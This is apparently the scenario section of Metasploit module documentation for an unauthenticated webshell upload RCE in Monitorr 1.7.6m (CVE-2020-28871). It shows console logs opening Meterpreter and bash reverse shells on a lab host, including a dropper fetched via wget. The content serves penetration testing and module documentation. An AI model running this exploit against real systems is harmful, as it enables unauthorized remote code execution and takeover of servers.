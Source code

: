 ```
lport => 4444
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 0
target => 0
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.34
[+] Deleted tsrezgkjwmtxyj.php
[*] Meterpreter session 1 opened (192.168.201.10:4444 -> 192.168.201.34:54680) at 2023-03-13 16:14:32 +0000

meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

### Monitorr 1.7.6m on Ubuntu Linux 22.04 - bash reverse shell
```
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 1
target => 1
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted jzcjawsk.php
[*] Command shell session 2 opened (192.168.201.10:4444 -> 192.168.201.34:58348) at 2023-03-13 16:16:06 +0000

uname -a
Linux cuckoo 5.15.0-60-generic #66-Ubuntu SMP Fri Jan 20 14:29:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Monitorr 1.7.6m on Ubuntu Linux 22.04 - Linux Dropper Meterpreter session
```
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > set target 2
target => 2
msf6 exploit(multi/http/monitorr_webshell_rce_cve_2020_28871) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Monitorr version: 1.7.6m
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/nAtmJo
[*] Client 192.168.201.34 (Wget/1.21.2) requested /nAtmJo
[*] Sending payload to 192.168.201.34 (Wget/1.21.2)
[*] Sending stage (3045348 bytes) to 192.168.201.34
[+] Deleted ebdzghdq.php
[*] Meterpreter session 3 opened (192.168.201.10:4444 -> 192.168.201.34:32922) at 2023-03-13 16:17:05 +0000
```